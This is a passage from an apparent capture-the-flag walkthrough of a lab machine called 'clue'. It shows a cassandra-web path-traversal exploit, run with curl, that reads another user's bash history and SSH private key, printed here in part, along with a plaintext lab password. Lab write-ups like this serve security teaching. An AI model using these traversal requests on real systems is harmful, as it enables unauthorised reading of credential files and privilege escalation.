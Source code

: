 Lets run this command with port 4444 as 3000 is already running with this service only and with the `cassie` creds 🔻

```bash
cassie@clue:/$ sudo /usr/local/bin/cassandra-web -B localhost:4444 --username 'cassie' --password 'SecondBiteTheApple330'
<sername 'cassie' --password 'SecondBiteTheApple330'
I, [2024-06-26T13:04:00.735848 #1574]  INFO -- : Establishing control connection
I, [2024-06-26T13:04:00.813272 #1574]  INFO -- : Refreshing connected host's metadata
I, [2024-06-26T13:04:00.815698 #1574]  INFO -- : Completed refreshing connected host's metadata
I, [2024-06-26T13:04:00.816182 #1574]  INFO -- : Refreshing peers metadata
I, [2024-06-26T13:04:00.817073 #1574]  INFO -- : Completed refreshing peers metadata
I, [2024-06-26T13:04:00.817100 #1574]  INFO -- : Refreshing schema
I, [2024-06-26T13:04:00.844213 #1574]  INFO -- : Schema refreshed
I, [2024-06-26T13:04:00.844246 #1574]  INFO -- : Control connection established
I, [2024-06-26T13:04:00.844413 #1574]  INFO -- : Creating session
I, [2024-06-26T13:04:00.951138 #1574]  INFO -- : Session created
2024-06-26 13:04:00 -0400 Thin web server (v1.8.1 codename Infinite Smoothie)
2024-06-26 13:04:00 -0400 Maximum connections set to 1024
2024-06-26 13:04:00 -0400 Listening on localhost:4444, CTRL+C to stop

```
{: .nolineno}


Lets run that READ file exploit now with port 4444 and I got this content now 🔻

I accessed the exploit with curl mannual command like this from the cassie shell as the port 4444 is running internally so lets access the history file of user anthony that can give us some informations 🔻

```bash
cassie@clue:~/.ssh$ curl --path-as-is http://localhost:3001/../../../../../../../../../../../home/anthony/.bash_history
</../../../../../../../../home/anthony/.bash_history
curl: (52) Empty reply from server
cassie@clue:~/.ssh$ curl --path-as-is http://localhost:4444/../../../../../../../../../../../home/anthony/.bash_history
</../../../../../../../../home/anthony/.bash_history
clear
ls -la
ssh-keygen
cp .ssh/id_rsa.pub .ssh/authorized_keys
sudo cp .ssh/id_rsa.pub /root/.ssh/authorized_keys
exit
cassie@clue:~/.ssh$ 
```
{: .nolineno}


As we got to know that the anthony users key can be used to access root so lets access private key of user anthony 🔻

```bash
cassie@clue:/$ curl --path-as-is http://localhost:4444/../../../../../../../../../../../home/anthony/.ssh/id_rsa
<../../../../../../../../../home/anthony/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAw59iC+ySJ9F/xWp8QVkvBva2nCFikZ0VT7hkhtAxujRRqKjhLKJe
d19FBjwkeSg+PevKIzrBVr0JQuEPJ1C9NCxRsp91xECMK3hGh/DBdfh1FrQACtS4oOdzdM
jWyB00P1JPdEM4ojwzPu0CcduuV0kVJDndtsDqAcLJr+Ls8zYo376zCyJuCCBonPVitr2m
B6KWILv/ajKwbgrNMZpQb8prHL3lRIVabjaSv0bITx1KMeyaya+K+Dz84Vu8uHNFJO0rhq
gBAGtUgBJNJWa9EZtwws9PtsLIOzyZYrQTOTq4+q/FFpAKfbsNdqUe445FkvPmryyx7If/
DaMoSYSPhwAAA8gc9JxpHPScaQAAAAdzc2gtcnNhAAABAQDDn2IL7JIn0X/FanxBWS8G9r
acIWKRnRVPuGSG0DG6NFGoqOEsol53X0UGPCR5KD4968ojOsFWvQlC4Q8nUL00LFGyn3XE
QIwreEaH8MF1+HUWtAAK1Lig53N0yNbIHTQ/Uk90QziiPDM+7QJx265XSRUkOd22wOoBws
mv4uzzNijfvrMLIm4IIGic9WK2vaYHopYgu/9qMrBuCs0xmlBvymscveVEhVpuNpK/RshP
```